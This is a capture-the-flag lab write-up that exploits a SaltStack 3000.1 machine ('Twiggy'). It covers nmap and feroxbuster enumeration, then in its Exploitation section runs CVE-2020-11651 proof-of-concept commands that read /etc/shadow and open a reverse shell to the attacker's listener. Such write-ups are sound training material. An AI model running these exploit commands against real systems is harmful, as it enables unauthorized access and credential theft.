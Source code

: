 ```yaml
---
title: "Proving Grounds - Twiggy"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, SaltStack]
mermaid: true
image: ../assets/img/provingrounds/oscp.png
---
```


Twiggy was an insightful machine focused on exploiting a SaltStack vulnerability. 

The machine required initial enumeration to identify open services, followed by a specific focus on the web service running on port 8000. 

By identifying and leveraging the `salt-api` service, a known exploit for SaltStack 3000.1 was used to gain access and execute a reverse shell. 

This machine provided practical experience in handling and exploiting SaltStack configurations.

# Diagram

```mermaid
graph TD
    A[Host Enumeration] -->|Nmap Scan| B[Identify SaltStack]
    B -->|Web Service on 8000| C[Explore SaltStack API]
    C -->|Find Exploit| D[Execute Exploit]
    D -->|Gain Access| E[Execute Reverse Shell]
    E -->|Obtain Access| F[Privilege Escalation]
    F -->|SaltStack Privilege Escalation| G[Capture Evidence]
    G -->|Success| H[Completion]
```


## Information Gathering

### Port Scan

---

- `nmap -sS -Pn -n -T4 -p- --open 192.168.177.62`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled.png)
    
- `nmap -sVC -Pn -n -p 22,53,80,4505,4506,8000 192.168.177.62`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%201.png)
    

## Enumeration

### HTTP 8080

---

- [http://192.168.177.62:8000/](http://192.168.177.62:8000/) → *This looks like some clients for the webserver.*
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%202.png)
    

So i decided to try access some url’s that are mistaken on purpose.

- [http://192.168.177.62:8000/local](http://192.168.177.62:8000/local) → *Powered by* CherryPy 5.6.0
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%203.png)
    

- `feroxbuster -u http://192.168.177.62:8000 -k -C 404,403,500  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%204.png)
    

- [http://192.168.177.62:8000/login](http://192.168.177.62:8000/login) → Says “Please log in”
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%205.png)
    

- `curl -X POST http://192.168.177.62:8000/login -d "username=admin&password=admin"` → Unauthorized
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%206.png)
    

- Intercepting the login request in the burp 
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%207.png)
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%208.png)
    
- Verifying the response of the requisition
    
    ```jsx
    HTTP/1.1 200 OK
    Server: nginx/1.16.1
    Date: Thu, 04 Jul 2024 20:29:32 GMT
    Content-Type: application/json
    Content-Length: 43
    Connection: close
    Access-Control-Expose-Headers: GET, POST
    Vary: Accept-Encoding
    Allow: GET, HEAD, POST
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Origin: *
    Www-Authenticate: Session
    Set-Cookie: session_id=178a37984d63e3d4ea4a4a39d686e300e2256436; expires=Fri, 05 Jul 2024 06:29:32 GMT; Path=/
    X-Upstream: salt-api/3000-1
    
    {"status": null, "return": "Please log in"}
    ```
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%209.png)
    

I also can get the same answer with this command:

- `curl -v -X GET http://192.168.177.62:8000/login`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2010.png)
    

It have the **`X-Upstream: salt-api/3000-1`.**

## Exploitation

### Salt-API

That information about the requisition, indicates the request was handled upstream by a service identified as `salt-api` version `3000-1`. This suggests the server might be running SaltStack, a configuration management tool.


- Search in the google for `salt-api/3000-1` → There’s an exploit for SaltStack 3000.1
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2011.png)
    

- [https://github.com/jasperla/CVE-2020-11651-poc/tree/master](https://github.com/jasperla/CVE-2020-11651-poc/tree/master)

- `python3 exploit.py -m 192.168.177.62 -r /etc/shadow`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2012.png)
    

Once that i wanted an reverse shell, this script wasn’t promisor, so i found this one:

- [https://github.com/bravery9/SaltStack-Exp/tree/master](https://github.com/bravery9/SaltStack-Exp/tree/master)

- `python3 exp.py --master 192.168.177.62 -lh 192.168.45.227 -lp 80`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2013.png)
    

- `rlwrap nc -lvnp 80`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2014.png)
    

- `flag`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2015.png)